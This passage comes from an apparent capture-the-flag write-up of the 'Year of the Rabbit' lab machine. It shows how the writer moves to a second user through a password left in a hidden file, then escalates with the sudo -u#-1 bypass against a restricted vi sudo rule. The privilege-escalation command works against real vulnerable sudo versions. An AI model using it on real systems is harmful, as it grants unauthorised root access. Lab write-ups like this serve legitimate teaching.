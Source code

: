 - This gives us a handy little clue that could potentially lead us to vectors for pivoting and privilege escalation. 
- One of the first things I do when I get onto a box with a low privilege user is use the `sudo -l` command to see if the user I have compromised has any permissions to run something as root. This can be a great way to escalate privileges, especially with something like [GTFOBins](https://gtfobins.github.io/). Unfortunately, the `Eli` user can't run sudo on this machine. Let's keep looking. 
- We can navigate over to the `gwendoline` directory, but we don't have permission to open the `user.txt` file located there. We will have to find a way to pivot to the `gwendoline` user. 
- Since we know there is likely a `s3cr3t` directory, we can use the `find` command to search for it with the following syntax:
```
find / -name "s3cr3t" 2>>/dev/null
```

- Basically, the above command searches for a directory named `s3cr3t` and routes all errors to `/dev/null` so we don't see a bunch of stuff clogging up our terminal window. Here is what we get as output:
```
/usr/games/s3cr3t
```

- Great, now let's go have a look and see what juicy info we can uncover. 
- When we use `ls -la` to list the contents of the directory, we get the following: `.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!`. Of course, we have to open it. I want to know what Gwendoline did. I love some workplace drama. Here's what it says:
```
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

- Now that we have the password for the `gwendoline` user, we can switch over to that profile and get the `user.txt` flag in her home directory. 

## Privilege Escalation
- Now that we have the user flag, let's look for a way to get root permissions. Again, let's use `sudo -l` to check our current root permissions. When we run this, we get this output:
```
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

- We can see that the `gwendoline` user can run `vi` as root, but only to edit the `user.txt` file found in their home directory. We can probably leverage this to spawn a root shell. Here is the syntax that we are going to use:
```
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```
